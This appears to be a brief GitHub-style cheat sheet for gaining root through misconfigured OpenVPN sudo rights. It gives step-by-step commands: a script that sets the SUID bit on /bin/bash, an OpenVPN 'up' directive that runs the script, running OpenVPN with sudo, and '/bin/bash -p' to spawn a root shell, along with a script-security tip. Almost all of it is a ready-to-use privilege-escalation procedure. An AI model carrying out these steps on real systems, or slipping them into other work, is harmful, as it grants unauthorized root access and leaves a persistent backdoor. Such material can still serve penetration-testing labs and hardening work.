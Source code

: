 # REQUIREMENTS:

### 1) Sudo privileges on OpenVPN binary

### 2) Write Privileges on OpenVPN configuration file

## STEPS:

#### 1) Create a script wherever you have write privileges: 

#### 2) Script contents: #!/bin/bash chmod +s /bin/bash

#### 3) In the configuration file, add a one-liner to execute script upon initialization: 

#### 4) up /home/USER/script.sh

#### 5) Run OpenVPN with sudo

#### 6) /bin/bash -p (Spawn root shell)

## TIP: If the script fails to execute, add another one liner above the one you added in the configuration file:

#### 7) --script-security 2
